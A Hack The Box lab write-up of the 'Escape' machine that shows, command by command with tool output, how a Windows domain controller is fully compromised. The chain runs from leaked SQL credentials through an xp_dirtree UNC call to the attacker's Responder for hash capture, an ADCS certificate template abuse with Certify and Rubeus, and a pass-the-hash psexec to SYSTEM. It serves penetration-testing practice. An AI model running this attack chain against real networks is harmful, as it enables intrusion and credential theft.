








# HTB - Escape

#### Ip: 10.10.11.202
#### Name: Escape
#### Rating: Medium

----------------------------------------------------------------------




### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ sudo nmap -p- -sC -sV 10.10.11.202 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-06 10:22 CST
Stats: 0:07:29 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 86.08% done; ETC: 10:31 (0:01:13 remaining)
Nmap scan report for 10.10.11.202
Host is up (0.074s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-07 00:31:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2024-02-07T00:32:48+00:00; +7h59m59s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-07T00:32:48+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-02-07T00:22:47
|_Not valid after:  2054-02-07T00:22:47
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2024-02-07T00:32:48+00:00; +7h59m59s from scanner time.
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2024-02-07T00:32:48+00:00; +7h59m59s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2024-02-07T00:32:48+00:00; +8h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49669/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49745/tcp open  msrpc         Microsoft Windows RPC
61384/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-07T00:32:09
|_  start_date: N/A
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 589.91 seconds
```
Looking at the results, lets start by adding sequel.htb to `/etc/hosts`

Using CrackMapExec we see we have read access to a share called Public as the Guest user.

Logging in we find a file called: SQL Server Procedures.pdf which we can transfer back to our attacking machine using the `get` command with smbclient.



Looking at the file we find the following note:

```
SQL Server Procedures
Since last year we've got quite few accidents with our SQL Servers (looking at you Ryan, with your instance on the DC, why should you even put a mock instance on the DC?!). So Tom decided it was a good idea to write a basic procedure on how to access and then test any changes to the database. Of course none of this will be done on the live server, we cloned the DC mockup to a dedicated server.


Tom will remove the instance from the DC as soon as he comes back from his vacation.
The second reason behind this document is to work like a guide when no senior can be available for all juniors.


Accessing from Domain Joined machine
1. Use SQL Management Studio specifying "Windows" authentication which you can donwload here:
https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver16
2. In the "Server Name" field, input the server name.
3. Specify "Windows Authentication" and you should be good to go.
4. Access the database and make that you need. Everything will be resynced with the Live server overnight.


Accessing from non domain joined machine
Accessing from non domain joined machines can be a little harder.
The procedure is the same as the domain joined machine but you need to spawn a command prompt and run the following command: 

cmdkey /add:"<serverName>.sequel.htb" /user:"sequel\<userame>" /pass:<password> . 

Follow the other steps from above procedure.

If any problem arises, please send a mail to Brandon

Bonus
For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with user PublicUser and password GuestUserCantWrite1. Refer to the previous guidelines and make sure to switch the "Windows Authentication" to "SQL Server Authentication".
```

Ok Interesting. So from this note we've gathered 4 usernames:

Ryan
Tom
Brandon
PublicUser

As well as the password: GuestUserCantWrite1

We can use impacket-mssqlclient to login to the DB as PublicUser:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ impacket-mssqlclient 'sequel/PublicUser@10.10.11.202'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
```

Unfortunately we don't have the permissions to enable xp_cmmdshell and run system commamds:

```
SQL> EXECUTE sp_configure 'show advanced options',1;
[-] ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
```
Lets set up a Responder listener and use `XP_DIRTREE` to point back to our attacking machine and try to capture a hash:

```
EXEC master..xp_dirtree '\\10.10.14.60\share\'
```



Nice, we were able to intercept the sql_svc user's hash. Lets try to crack this with John:



Cool, we now how sql_svc credentials: sql_svc:REGGIE1234ronnie

We can now authenticate to the DC with these credentials using evil-winrm:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents> whoami
sequel\sql_svc
*Evil-WinRM* PS C:\Users\sql_svc\Documents> hostname
dc
```

Browsing around the target we find a file named ERRORLOG.BAK in `C:\SQLServer\Logs`

Inside the log file we find Ryan.Cooper's password:

```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

We can then use this credential to login to the target via evil-winrm, and grab the user.txt flag:



### Privilege Escalation

Running `whoami /all` I see ryan.cooper is in the `BUILTIN\Certificate Service DCOM Access` group. 

This got me wondering if there was anyway we could exploit ADCS here.

Lets grab a copy of certify.exe from https://github.com/GhostPack/Certify and transfer it to the target. (Pre-compiled binary at https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

Here's the ouput of running the executable as it looks for vulnerablities:

```
*Evil-WinRM* PS C:\temp> .\Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'

[*] Listing info about the Enterprise CA 'sequel-DC-CA'

    Enterprise CA Name            : sequel-DC-CA
    DNS Hostname                  : dc.sequel.htb
    FullName                      : dc.sequel.htb\sequel-DC-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
    Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
    Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Cert Start Date               : 11/18/2022 12:58:46 PM
    Cert End Date                 : 11/18/2121 1:08:46 PM
    Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519


Certify completed in 00:00:09.8318109
```

We can see here that the UserAuthentication template is vulnerable. 

To exploit this we can run:
```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

And we will be issued an rsa key and a certificate:



Lets copy these files (all as one) back to our Kali machine and save it in a file called cert.pem.

Back on Kali we can then convert the file to .pfx by running:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```
I elected to not include a password just by pressing enter.

Lets then transfer both the cert.pfx file as well as a copy of Rubeus.exe to the target:

```
*Evil-WinRM* PS C:\temp> upload ~/Tools/AD/kerberos/Rubeus.exe
Info: Uploading ~/Tools/AD/kerberos/Rubeus.exe to C:\temp\Rubeus.exe

                                                             
Data: 588456 bytes of 588456 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\temp> upload ~/HTB/Escape/cert.pfx
Info: Uploading ~/HTB/Escape/cert.pfx to C:\temp\cert.pfx

                                                             
Data: 4564 bytes of 4564 bytes copied

Info: Upload successful!
```

Now that we have cert.pfx and Rubeus on the target ticket we can try to drop the administrator's NTLM hash

```
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\temp\cert.pfx /getcredentials /show /nowrap
```

It worked! We now have the admin hash:



We can now pass-the-hash with impacket-psexec:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ impacket-psexec Administrator@10.10.11.202 -hashes aad3b435b51404eeaad3b435b51404ee:A52F78E4C751E5F5E17E1E9F3E58F4EE
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.11.202.....
[*] Found writable share ADMIN$
[*] Uploading file gQuKoxrr.exe
[*] Opening SVCManager on 10.10.11.202.....
[*] Creating service BzXO on 10.10.11.202.....
[*] Starting service BzXO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And grab the final flag:



Thanks for following along!

-Ryan

